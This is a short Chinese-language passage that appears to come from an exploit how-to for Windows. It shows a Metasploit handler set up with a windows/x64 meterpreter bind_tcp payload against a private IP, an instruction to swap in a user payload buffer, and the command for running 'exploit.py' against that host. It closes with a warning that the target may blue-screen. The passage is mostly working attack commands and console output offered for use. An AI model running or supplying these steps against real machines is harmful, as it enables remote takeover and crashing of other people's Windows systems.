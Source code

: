 
![](image/windows-23.png)

> [!NOTE]
>
> buf 要替换为 USER_PAYLOAD

使用 MSF

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
```

执行脚本即可

```
python3 exploit.py  -ip 192.168.1.110
```

> [!NOTE]
>
> 注意有蓝屏概率